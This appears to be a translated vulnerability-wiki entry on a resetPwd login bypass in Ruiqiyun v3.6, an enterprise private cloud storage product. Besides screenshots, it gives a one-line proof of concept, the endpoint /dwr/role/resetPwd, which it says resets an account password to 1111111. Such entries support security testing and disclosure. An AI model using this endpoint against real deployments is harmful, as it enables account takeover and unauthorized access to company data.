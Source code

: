 # Ruiqiyun resetPwd login bypass vulnerability

## Vulnerability Description

Ruiqi Cloud is an enterprise private cloud, aiming to help enterprises establish private cloud storage and management systems, help enterprises achieve centralized management of documents, strengthen data security, and create a collaborative office environment that is information interoperable and data-driven. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ruiqiyun v3.6</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1692239495468-467f771d-6d80-4a09-b9a0-b2bfd3f617ab-20231108133448879.png)

![img](https://cdn.nlark.com/yuque/0/2023/png/2117730/1692239627760-f17c0c2f-c561-4754-9aee-637e3fb7a5eb.png)

Verify POC, reset password to 1111111

```plain
/dwr/role/resetPwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1692239612129-491c8b3f-020c-4b72-b9d4-c547f6e681eb.png)